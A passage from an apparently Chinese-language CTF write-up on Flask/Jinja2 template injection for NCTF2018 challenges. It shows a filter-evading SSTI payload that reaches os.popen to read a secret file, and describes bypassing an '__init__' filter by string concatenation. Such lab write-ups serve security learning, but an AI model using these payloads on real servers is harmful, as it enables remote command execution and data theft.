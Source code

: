 如果不想用session，或者session也不能用了，就需要更多的绕过方式，下面会提到这种。

```none
{{(((()|attr(("_"*2,"cla","ss","_"*2)|join)|attr(("_"*2,"bases","_"*2)|join))[0]|attr(("_"*2,"subcla","sses","_"*2)|join)())[102]|attr(("_"*2,"init","_"*2)|join)|attr(("_"*2,"globals","_"*2)|join)).get('pop'+'en')('cat%20/Th1s__is_S3cret').read()}}
```

![image-20200423171734174](assets/20200424150506.png)

#### flask plus

[[https://github.com/NJUPT-coding-gay/NCTF2018/tree/master/Web/Flask%20PLUS\]](https://github.com/NJUPT-coding-gay/NCTF2018/tree/master/Web/Flask PLUS])(https://github.com/NJUPT-coding-gay/NCTF2018/tree/master/Web/Flask PLUS)

同样的页面，说明应该是增加了过滤的东西，同样修改Dockerfile文件。

使用上一个POC，发现`__init__`被过滤了。至少到这一步是正常的

![image-20200423102101580](assets/20200424150508.png)

然后只需要把`__init__`做拼接就行了

![image-20200423102442838](assets/20200424150510.png)
